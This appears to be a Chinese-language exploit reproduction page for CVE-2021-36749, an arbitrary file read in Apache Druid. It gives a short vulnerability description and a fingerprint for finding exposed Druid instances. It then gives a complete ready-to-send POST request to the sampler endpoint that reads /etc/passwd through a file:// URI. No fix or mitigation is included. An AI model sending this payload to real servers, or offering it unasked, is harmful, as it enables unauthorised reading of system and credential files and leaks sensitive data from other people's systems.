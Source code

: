 # Apache Druid LoadData 任意文件读取漏洞 CVE-2021-36749

## 漏洞描述

由于用户指定 HTTP InputSource 没有做出限制，可以通过将文件 URL 传递给 HTTP InputSource 来绕过应用程序级别的限制。攻击者可利用该漏洞在未授权情况下，构造恶意请求执行文件读取，最终造成服务器敏感性信息泄露。

## 漏洞影响

```
Apache Druid
```

## 网络测绘

```
title="Apache Druid"
```

## 漏洞复现

主页面

![](images/202205251552893.png)

复现过程

![](images/202205251552182.png)

![](images/202205251552177.png)

请求包为

```
POST /druid/indexer/v1/sampler?for=connect
Accept: application/json, text/plain, */*

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

![](images/202205251552931.png)